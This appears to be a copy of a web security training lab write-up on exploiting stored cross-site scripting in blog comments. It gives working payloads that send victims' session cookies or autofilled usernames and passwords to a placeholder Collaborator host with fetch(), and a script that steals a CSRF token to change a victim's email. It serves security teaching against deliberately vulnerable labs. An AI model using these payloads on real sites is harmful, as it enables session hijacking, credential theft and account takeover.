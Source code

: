 # Exploiting cross-site scripting vulnerabilities

Some people using ```alert(document.domain)```. This is a way of making it explicit which domain the JavaScript is executing on.

## Exploiting cross-site scripting to steal cookies

Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

In practice, this approach has some significant limitations:

- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the HttpOnly flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.

### Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

**Solution:**

1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
    </script>
    ```
This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to ```/my-account``` to load the admin user's account page.

## Exploiting cross-site scripting to capture passwords

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password.

The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.)

### Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**Solution:**
1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    ```
    <input name=username id=username>
    <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
    });">
    ```
    This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.
6. Use the credentials to log in as the victim user.

## Exploiting cross-site scripting to perform CSRF

Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site you're targeting, you might be able to make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin.

Some websites allow logged-in users to change their email address without re-entering their password. If you've found an XSS vulnerability, you can make it trigger this functionality to change the victim's email address to one that you control, and then trigger a password reset to gain access to the account.

This type of exploit is typically referred to as cross-site request forgery (CSRF), which is slightly confusing because CSRF can also occur as a standalone vulnerability. When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.

### Exploiting XSS to perform CSRF

This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: ```wiener:peter```

**Solution:**
1. Log in using the credentials provided. On your user account page, notice the function for updating your email address.
2. If you view the source for the page, you'll see the following information:
   - You need to issue a POST request to ```/my-account/change-email```, with a parameter called *email*.
   - There's an anti-CSRF token in a hidden input called *token*.
   This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.
3. Submit the following payload in a blog comment:

    ```
    <script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
    req.send();
    function handleResponse() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
    };
    </script>
    ```
    This will make anyone who views the comment issue a POST request to change their email address to test@test.com.